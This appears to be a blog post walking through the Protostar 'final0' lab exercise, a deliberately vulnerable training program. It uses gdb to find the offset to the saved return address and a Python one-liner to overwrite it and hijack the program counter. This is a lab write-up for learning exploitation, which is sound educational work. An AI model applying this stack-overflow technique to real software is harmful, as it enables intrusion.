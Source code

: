```yaml
---

layout: post
title:  "Protostar Exploit Exercises: Final challenges"
author: jonatanhal

---
```


## [final0](https://exploit-exercises.com/protostar/final0/)

>## About
>
>This level combines a stack overflow and network programming for a remote overflow.
>
>Hints: depending on where you are returning to, you may wish to use a toupper() proof shellcode.
>
>Core files will be in /tmp.

If we compile our own version of the final0 program, we can use it
to learn things about the way that the stack should look in the real
version.

~~~
$ gdb -q ./a.out
(gdb) # We put a breakpoint on the line of the call to gets
(gdb) break 21
(gdb) c
(gdb) x/2a $ebp
0xbffff7b8:		0xbffff7e8		0x80485eb <main+14>
(gdb) x/x buffer
0xbffff5a8:		0x00000000
(gdb) p/x 0x7b8-0x5a8
$1 = 0x210
(gdb) # We can conclude that &buffer+0x214 == &savedReturnAddress
~~~

With that in mind, it's really simple to gain control of the program counter.

~~~
(gdb) shell python -c "print 'A'*0x214+'\xef\xbe\xad\xde'" > final0input
(gdb) start < final0input
Start it from the beginning? (y or n) y
Temporary breakpoint 7 at 0x80485e6: file final0.c, line 42.
Starting program: /home/user/a.out < final0input
...
(gdb) c

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
~~~
